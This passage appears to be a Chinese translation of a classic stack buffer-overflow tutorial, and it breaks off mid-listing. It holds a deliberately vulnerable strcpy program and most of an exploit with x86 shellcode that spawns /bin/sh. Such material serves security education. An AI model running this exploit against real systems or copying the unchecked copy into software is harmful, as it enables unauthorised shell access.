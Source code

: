 ```
 [aleph1]$ ./sp
0x8000470
[aleph1]$
```

假定我们要使其溢出的程序如下:

vulnerable.c

```
void main(int argc, char *argv[]) {
    char buffer[512];

    if (argc > 1)
        strcpy(buffer,argv[1]);
}
```

我们创建一个程序可以接受两个参数, 一是缓冲区大小, 二是从其自身堆栈指针算起的偏移量(这个堆栈指针指明了我们想要使其溢出的缓冲区所在的位置). 我们把溢出字符串放到一个环境变量中, 这样就容易操作一些.

exploit2.c

```
#include

#define DEFAULT_OFFSET 0
#define DEFAULT_BUFFER_SIZE 512

char shellcode[] =
    "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
    "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
    "\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_sp(void) {
    __asm__("movl %esp,%eax");
}

void main(int argc, char *argv[]) {
    char *buff, *ptr;
    long *addr_ptr, addr;
    int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;

    int i;

    if (argc > 1) bsize = atoi(argv[1]);
    if (argc > 2) offset = atoi(argv[2]);

    if (!(buff = malloc(bsize))) {
        printf("Can't allocate memory.\n");
        exit(0);
    }

    addr = get_sp() - offset;
    printf("Using address: 0x%x\n", addr);

    ptr = buff;
    addr_ptr = (long *) ptr;
    for (i = 0; i < bsize; i+=4)
        *(addr_ptr++) = addr;

    ptr += 4;
    for (i = 0; i < strlen(shellcode); i++)
        *(ptr++) = shellcode[i];

    buff[bsize - 1] = '\0';
```